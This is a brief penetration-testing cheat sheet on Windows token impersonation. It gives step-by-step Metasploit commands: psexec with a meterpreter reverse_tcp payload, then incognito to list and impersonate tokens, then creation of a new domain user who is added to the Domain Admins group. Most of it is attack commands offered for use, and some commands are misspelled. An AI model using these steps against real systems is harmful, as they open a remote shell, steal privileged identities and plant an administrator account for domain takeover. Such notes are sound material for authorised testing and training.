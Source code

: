 # Token Impersonation

Go to msfconsole&#x20;

use module windows/smb/psexec

use payload windows/\<arch>/meterpreter/reverse\_tcp

set all required options

get metereter connection

then run&#x20;

```
load incognito
```

```
list-tokens -u
```

\-u for users / can try -g for groups

```
Impersonate-token <token name>
```

if the token name consits of a black slash then use double black slash for charecter escaping

To create a new user and add it to admin group

```
net user /add <uname> <pass> /domain
```

```
net group "Domain admin" <uname created above> /ADD/DOMAIN
```
